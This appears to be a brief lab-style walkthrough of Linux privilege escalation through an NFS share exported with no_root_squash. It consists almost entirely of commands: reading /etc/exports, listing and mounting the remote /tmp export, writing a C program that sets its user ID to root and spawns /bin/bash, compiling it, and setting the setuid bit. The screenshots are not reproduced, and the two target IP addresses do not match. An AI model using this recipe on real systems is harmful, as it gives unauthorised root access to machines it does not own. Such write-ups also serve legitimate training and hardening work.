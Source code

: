 # Detection 

```bash
cat /etc/exports
```

![image](https://user-images.githubusercontent.com/96658935/147764250-ba9636f7-ff5c-4201-a298-306d05ae8ed1.png)


From the output, notice that “no_root_squash” option is defined for the “/tmp” export

```bash
showmount -e 10.10.10.10
```

![image](https://user-images.githubusercontent.com/96658935/147764360-cac84d6f-4f74-407b-80ee-adbbcd2b1df0.png)


```bash
mkdir /tmp/1
```

```bash
mount -o rw,vers=2 10.10.108.52:/tmp /tmp/1
```

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
```


```bash
gcc /tmp/1/x.c -o /tmp/1/x
```

```bash
chmod +s /tmp/1/x
```


![image](https://user-images.githubusercontent.com/96658935/147765264-d9b94d3c-65aa-4d5b-99fc-02e4cee6aa21.png)


![image](https://user-images.githubusercontent.com/96658935/147765202-4dcfa7d1-5b1c-4668-ba97-b86abf62236b.png)




